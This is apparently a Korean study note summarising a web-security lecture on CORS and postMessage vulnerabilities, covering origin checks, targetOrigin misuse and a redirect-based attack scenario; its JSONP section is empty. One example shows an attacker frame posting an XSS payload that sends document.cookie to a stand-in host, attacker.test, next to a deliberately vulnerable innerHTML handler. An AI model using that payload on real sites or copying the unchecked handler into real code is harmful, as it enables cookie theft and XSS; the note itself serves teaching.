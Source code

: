 # CORS Vulnerability

* SOP의 한계를 극복하고 Origin 간 자원 공유를 돕기 위해 ```postMessage```, JSONP 및 CORS 정책 기술이 도입됨
    - CORS(Cross Origin Resource Sharing): **SOP 보안 정책을 우회**하여 Cross Origin 간 자원을 공유하기 위한 방법 중 하나 → ⚠️ **잘못 사용할 경우 사이트 간 공격이 가능해지는 취약점이 발생할 수 있음**
        + 웹 상에 있는 서비스에만 제약되는 것이 아님
        + 📚 [Same Origin Policy(SOP).md](https://github.com/augustf86/Today_I_Learn/blob/main/Security/Background/Same%20Origin%20Policy(SOP).md) 내용 참고

<br/>

* CORS 기술의 사용에 있어 발생할 수 있는 취약점의 종류
    | 취약점 종류 | 설명 |
    |:---:|------|
    | 현재 사이트에서 <br/> 다른 사이트로 <br/> 정보 유출 <br/> (기밀성) | CORS는 모든 정보를 공개하는 Open API뿐만 아니라 특정 대상에게만 자원을 공유하고자 하는 사이트에서도 <br/>사용할 수 있음 <br/> &nbsp;&nbsp; - 다른 사이트로부터 CORS 요청을 받을 때 **그 Origin에 대한 검사가 진행되지 않고 응답하거나 Origin에 제약이 <br/> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;없는 경우** 민감한 정보가 다른 사이트에 노출될 수 있음 |
    | 다른 사이트에서 <br/> 현재 사이트로 <br/> 변조 (무결성) | CORS 요청의 Origin에서 **신뢰할 수 있는 출처인지 확인 또는 제한하지 않거나** CORS 응답을 **그대로 사용**할 경우<br/> XSS 등의 보안 문제가 발생할 수 있음 <br/> &nbsp;&nbsp; - CORS 도입 시 어떤 사이트를 얼마나 신뢰하느냐가 결정되어야 함 <br/> &nbsp;&nbsp; - XSS 필터 등 신뢰하지 않는 입력에 대한 방어가 병행되어야 함 |

<br/><br/>

## postMessage 취약점
### Window.postMessage API
* postMessage API 도입 배경
    | 시기 | 설명 |
    |:---:|------|
    | 웹 초창기 <br/> (SOP 도입 전) | 프레임과 창들은 자유롭게 서로의 코드를 호출할 수 있었음 |
    | SOP 도입 후 | 서로 다른 오리진들은 직접적으로 리소스를 공유하지 못하게 됨 <br/> &nbsp;&nbsp; → 해결책으로 **서로 다른 Origin 간에 메시지를 주고받을 수 있는 API**가 고안됨

* postMessage API를 이용한 메세지 송수신 관련 메소드와 이벤트 → 📚 [Window: postMessage() method Docs](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage) 참고
    - 메시지 전송(송신)을 위해서 대상 윈도우의 **```postMessage``` 메소드**를 호출함
        ```javascript
        targetWindow.postMessage(message, targetOrigin[, transfer])
        ```
        | 변수 | 설명 |
        |---|------|
        | ```targetWindow``` | 메시지를 보낼 대상 Window |
        | ```message``` | 메시지 객체 (함수, DOM 객체 등은 보낼 수 없음) |
        | ```targetOrigin``` | 메시지 송신 시점에 ```targetWindow```의 Origin이 ```targetOrigin```과 일치하여야 함 <br/> &nbsp;&nbsp; - ```targetOrigin```에 ```"*"```을 지정하면 Origin 검사가 이루어지지 않음 |
        | ```transfer``` | (optional) ```ArrayBuffer```나 canvas context 등 소유권을 전이할 객체의 배열을 지정 |
    - 메시지 수신을 위해서 수신하는 윈도우에서 **```message``` 전역 이벤트**를 청취함
        | 고유 속성 | 설명 |
        |---|------|
        | ```origin``` | 메시지를 송신한 Origin 반환 |
        | ```source``` | 메시지를 송신한 Window 객체 반환 |
        | ```data``` | 복사된 메시지 객체 또는 값 반환 |

* postMessage API를 이용한 메시지 송수신 예시
    ```javascript
    // 메시지 송신
    targetWindow.postMessage(message, targetOrigin);

    // 메시지 수신
    window.onmessage = function (e) {
        if (e.origin === 'https://sample.com') {
            console.log(e.data);
            e.source.postMessage('Hello World!', e.origin);
        }
    }
    ```

* ⚠️ postMessage 사용 시 주의 사항
    - ```postMessage```를 통해 ```message```로 문자열뿐만 아니라 객체 또한 주고받을 수 있음 <br/> &nbsp;&nbsp; → **보안을 위해 함수(객체 메소드 포함), DOM 노드(요소 등) 객체, 프로토 타입 및 ```get```/```set``` 속성 정보는 보낼 수 없음**
    - 전송되는 모든 객체는 복사됨 → 송신 후 객체를 변경하여도 수신하는 윈도우에서는 변경 내용을 볼 수 없음

<br/>

### Origin 미확인 시 발생할 수 있는 취약점
* Window.postMessage API 사용 시 Origin을 정확히 지정 및 검사해야 함
    - 📌 **SOP를 우회**하여 자유자재로 다른 윈도우와 통신할 수 있도록 만들어진 API → Origin 검사 또한 **웹 개발자의 책임**이 됨
    - 특정 윈도우는 모든 Origin에서 오는 메시지를 수신할 수 있음
        + ⚠️ ```message``` 이벤트 핸들러에서 **```origin``` 속성을 검사하지 않고 메시지의 내용을 신뢰**하면 보안 문제가 발생할 수 있음
* Origin 미확인 시 발생할 수 있는 취약점 예시 코드 (전체 코드는 [여기](https://learn.dreamhack.io/325#5)를 참고)
    - Parent Window 코드 일부
        ```javascript
        // https;//dreamhack.io
        window.onmessage = function (e) {
            var dialog = document.getElementById('my-dialog');
            if (dialog == null) {
                dialog = document.createElement('dialog');
                dialog.id = 'my-dialog';
                document.body.appendChild(dialog);
            }
            dialog.setAttribute('open', '');
            dialog.innerHTML = e.data; // Insert html
        };
        ```
        + 프레임 내 하위 윈도우에서 부모 윈도우(Parent Window)로 postMessage를 보내는 상황
            - ```dialog.innerHTML = e.data;``` → 부모 윈도우에서 수신한 ```message```의 ```data```를 ```innerHTML```로 넣고 있음
                + ⚠️ 부모 윈도우(Parent Window)에서 postMessage의 Origin을 확인하지 않음 → 공격자의 오리진에서 임의의 HTML를 삽입할 수 있음
        + [정상적인 상황] 의도된 프레임 코드 일부
            ```javascript
            // https://bob.dreamhack.io
            parent.postMessage('<h1>안내</h1><p>작업이 완료되었습니다.</p>', 'https://dreamhack.io');
            ```
        + [공격 상황] 공격자 프레임 코드 일부
            ```javascript
            // https://attacker.test
            parent.postMessage(`XSS attack<script>new Image().src="https://attacker.test/retrieve?" + document.cookie);
            alert(document.domain);
            <${'/'}script>`, 'https://dreamhack.io/');
            ```

<br/>

### Origin 전환 경합 조건
* 📌 ```postMessage``` 사용 시 **메시지를 보내는 대상이 웹 문서가 아닌 창(윈도우)이라는 것**을 반드시 기억해야 함
    - 웹 문서와 창(윈도우)의 차이점
        | 종류 | 설명 |
        |:---:|------|
        | 웹 문서 | 일반적으로 **출처가 고정**되어 있음 (**Origin이 변경되지 않음**) |
        | 창(윈도우) | 사용자가 하이퍼링크를 방문하거나 스크립트가 다른 문서로 리다이렉트시켜 **Origin이 변경될 수 있음** <br/> &nbsp;&nbsp; → ⚠️ 이 상태에서 메시지 전손 시 본래 의도하지 않은 Origin으로 메시지가 전송되는 보안 문제가 발생할 수 있음 |
    - 창(윈도우)의 특성 상 발생하는 보안 문제의 해결 방법
        - ```postMessage```의 두 번째 매개변수인 ```targetOrigin```에 대상 문자열을 명시함
            | ```targetOrigin```의 값 | 설명 |
            |:---:|-------|
            | 일반적인 값 | 메시지 송신 시점에 Origin을 검사하여 일치하지 않는 경우 송신을 거부함 |
            | ```"*"``` 지정 | ```targetWindow```의 Origin이 무엇이든지 상관없이 메세지가 보내짐 → ⚠️ 권장하지 않음 | 

<br/>

### postMessage API를 이용한 실제 공격 시나리오
| 순서 | 설명 |
|:---:|------|
| 01 | Parent Window에서 Child Window 생성
| 02 | Child Window가 Parent Window한테 ```postMessage```로 메시지 및 비밀값 전송 |
| 03 | Parent Window가 공격자의 다른 웹 사이트로 리다이렉트 |
| 04 | Child Window는 여전히 Parent Window에게 메시지 및 비밀 값 전송 |
| 05 | 공격자 사이트가 Child Window가 보내주는 메시지 수신 |

<br/><br/>

## JSONP 취약점


<br/><br/><br/><br/>
### 🔖 출처
* [드림핵 Web Hacking Advanced - Client Side] 📌 [Exploit Tech: CORS Vulnerability](https://dreamhack.io/lecture/courses/325)
